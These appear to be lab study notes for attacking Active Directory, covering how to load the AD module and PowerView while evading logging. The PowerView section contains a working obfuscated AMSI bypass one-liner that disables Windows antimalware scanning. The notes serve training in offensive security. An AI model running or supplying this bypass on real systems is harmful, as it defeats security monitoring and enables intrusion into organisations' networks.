 # LOAD NECESSARY POWERSHELL SCRIPTS

<p>Let's start a PowerShell session using Invishell to avoid verbose logging. We will use Microsoft's AD 
Module for solving the tasks of this Hands-On:</p>

<p>The scripts can be loaded into memory from on disk as shown below or from a Download and execute cradel.</p> [Download and execute cradel](https://github.com/josephrw12/attacking_active_directory_notes/commit/542d1970bb433ae76a2f39b54ac634abd8058644) 

<p>In this example the tools are stored on disk in the folder C:\AD\Tools </p>

## AD Module
```PowerShell
PS C:\Users\studentuserx>cd C:\AD\Tools\

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

## Powerview
```PowerShell
PS C:\Users\studentuserx>cd C:\AD\Tools\

PS C:\AD\Tools>powershell

PS C:\AD\Tools>
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x')) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ;(Get-varI`A`BLE ( ('1Q'+'2U')+'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )

PS C:\AD\Tools>. C:\AD\Tools\PowerView.ps1

```
